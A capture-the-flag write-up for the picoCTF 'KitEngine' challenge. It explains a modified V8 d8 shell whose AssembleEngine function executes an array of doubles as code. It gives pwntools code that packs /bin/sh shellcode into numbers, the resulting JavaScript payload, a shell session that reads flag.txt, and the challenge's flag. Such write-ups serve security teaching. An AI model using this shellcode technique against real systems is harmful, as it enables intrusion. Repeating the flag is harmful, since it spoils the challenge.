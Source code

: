 # KitEngine
Author: wparks

Start your engines!! [d8](https://mercury.picoctf.net/static/6e15c605b9f214d7afc35e68b4ae307f/d8) [source.tar.gz](https://mercury.picoctf.net/static/6e15c605b9f214d7afc35e68b4ae307f/source.tar.gz) [server.py](https://mercury.picoctf.net/static/6e15c605b9f214d7afc35e68b4ae307f/server.py) Connect at mercury.picoctf.net 62123

Hint 1: Having a good foundation may be helpful later

Hint 2: Make sure your shellcode works for the situation.

## Solving tl;dr
```diff
+uint64_t doubleToUint64_t(double d){
+  union {
+    double d;
+    uint64_t u;
+  } conv = { .d = d };
+  return conv.u;
+}
+
+void Shell::Breakpoint(const v8::FunctionCallbackInfo<v8::Value>& args) {
+  __asm__("int3");
+}
+
+void Shell::AssembleEngine(const v8::FunctionCallbackInfo<v8::Value>& args) {
+  Isolate* isolate = args.GetIsolate();
+  if(args.Length() != 1) {
+    return;
+  }
+
+  double *func = (double *)mmap(NULL, 4096, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
+  if (func == (double *)-1) {
+    printf("Unable to allocate memory. Contact admin\n");
+    return;
+  }
+
+  if (args[0]->IsArray()) {
+    Local<Array> arr = args[0].As<Array>();
+
+    Local<Value> element;
+    for (uint32_t i = 0; i < arr->Length(); i++) {
+      if (arr->Get(isolate->GetCurrentContext(), i).ToLocal(&element) && element->IsNumber()) {
+        Local<Number> val = element.As<Number>();
+        func[i] = val->Value();
+      }
+    }
+
+    printf("Memory Dump. Watch your endianness!!:\n");
+    for (uint32_t i = 0; i < arr->Length(); i++) {
+      printf("%d: float %f hex %lx\n", i, func[i], doubleToUint64_t(func[i]));
+    }
+
+    printf("Starting your engine!!\n");
+    void (*foo)() = (void(*)())func;
+    foo();
+  }
+  printf("Done\n");
+}
+
```

This challenge introduces a new function, `AssembleEngine()`, that will take a single array of Numbers (doubles) and execute the data as shellcode.

There's really not much to say here. I start by getting /bin/sh shellcode from pwntools:

```python
from pwnscripts import *
context.arch = 'amd64'
print(','.join('%dn'%v for v in map(unpack,group(8, sh(), 'fill', b'\0'))))
```
The end result is `7593684403119126065n,6869207039721025390n,5562984099575n`, and that's all you need to send to `AssembleEngine()`:
```js
AssembleEngine([7593684403119126065n,6869207039721025390n,5562984099575n].map(v=>itof(v)));
```
That's it.
```python
File written. Running. Timeout is 20s
$ cat flag.txt
$ exit
Run Complete
Stdout b'picoCTF{vr00m_vr00m_30abad0d522d3b14}\n'
Stderr b''
[*] Got EOF while reading in interactive
$
```
